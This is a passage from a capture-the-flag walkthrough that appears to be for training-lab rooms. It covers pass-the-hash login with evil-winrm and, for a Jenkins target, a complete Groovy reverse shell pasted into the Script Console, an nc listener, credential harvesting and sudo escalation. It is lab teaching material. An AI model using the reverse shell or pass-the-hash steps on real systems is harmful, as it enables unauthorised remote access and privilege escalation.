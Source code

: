 Under the **Getting credentials using U2U** section, the hash is at `NTLM`.

**Q2:  What is the content of flag.txt on the Administrator Desktop?**

From the attacking machine, login with the username and password hash from Q1.

```
evil-winrm -i 10.10.241.225 -u vansprinkles -H <OMITTED>
```

See the flag with the command:

```
type C:\Users\Administrator\Desktop\flag.txt
```

<br>

## Day 12 - Sleighing Threats, One Layer at a Time 

**Q1: What is the default port for Jenkins?**

Do a Google search for `jenkins default port`.

**Q2: What is the password of the user tracy?**

Generate a Groovy reverse shell from [revshells](https://www.revshells.com).

```bash
String host="<YOUR IP>";int port=9001;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Open up a reverse shell listener.
```
nc -nlvp 9001
```

Login to the Jenkins web interface.

Click `Manage Jenkins`.

Under the **Tools and Actions** section, click `Script Console`.

Paste the Groovy payload into the textbox and click **Run**. You should now have a shell.

The password can be found at `/opt/scripts/backup.sh`.

**Q3: What's the root flag?**

Login (via SSH) to the server as tracy.

Escalate to root with the command: `sudo su`.

The flag can be found at `/root/flag.txt`.

**Q4: What is the error message when you login as tracy again and try `sudo -l` after its removal from the sudoers group?**
